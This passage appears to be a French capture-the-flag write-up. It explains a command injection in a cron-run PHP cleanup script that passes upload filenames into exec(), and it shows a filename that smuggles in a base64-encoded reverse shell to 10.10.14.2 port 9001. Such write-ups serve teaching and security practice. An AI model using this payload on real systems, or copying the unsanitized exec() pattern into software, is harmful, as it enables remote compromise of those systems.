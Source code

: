 ## apache -> guly

### Improper sanitization : Command Injection
A la racine de du /home de l'utilisateur **guly**, on trouve un fichier check_attack.php ainsi qu'une crontab montrant que l'utilisateur guly execute ce fichier php toute les 3mns.

On comprend qu'il parcourt le fichier /uploads du site web, si le nom du fichier ne contient pas une IP valide, il execute une commande pour supprimer le fichier.

Cependant, on remarque qu'il utilise la fonction exec() avec /bin/rm, au lieu d'utiliser une fonction php classique permettant la suppression d'un fichier. Cela nous permet de créer un fichier avec des ";" permettant l'execution de n'importe quelle commande Bash !

```bash
bash-4.2$ cat check_attack.php 

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```
Voici un exemple de nom de fichier nous permettant d'executer un reverse shell facilement :
```bash
cd /var/www/html/uploads
touch 'a; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzkwMDEgMD4mMQ== | base64 -d | bash; ls'

# Voici la commande
# nohup /bin/rm -f $path$value > /dev/null 2>&1 &

# Voici ce que le programme va reellement executer
```
